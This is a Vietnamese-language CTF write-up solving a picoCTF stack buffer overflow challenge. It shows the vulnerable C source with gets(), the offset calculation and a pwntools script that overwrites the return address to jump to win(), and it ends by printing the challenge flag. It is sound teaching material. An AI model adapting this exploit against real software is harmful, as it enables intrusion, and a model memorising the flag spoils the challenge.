

**1. Tìm lỗi**

   Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

   Ta thấy chương trình có lệnh gets và hàm win(hàm in ra flag) -> Nghĩ đến lỗi bof
   Dùng lệnh 'checksec' để kiểm tra ta có:

   

   Ta thấy CANARY đang ở trạng thái disabled -> Có thể khai thác qua lỗi bof

**2. Ý tưởng**

   Nhờ lỗi bof nên có thể nhập tràn từ biến buf đến ret rồi chèn địa chỉ hàm win vào

**3. Viết script**

   Dùng lệnh 'file' để kiểm tra file thực thi

   

   Ta thấy được là file 32bit

   

   Địa chỉ biến buf là: ebp - 0x28 -> Khoảng cách từ buf đến ret là: 0x28 + 0x4 = 44

   

   Địa chỉ hàm win là: 0x080491f6

   Ta có file script như sau: 

```
from pwn import *

r = remote("saturn.picoctf.net", 61990)

payload = b'a'*44 + p32(0x080491f6)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   

   Flag: picoCTF{addr3ss3s_ar3_3asy_2e53b270}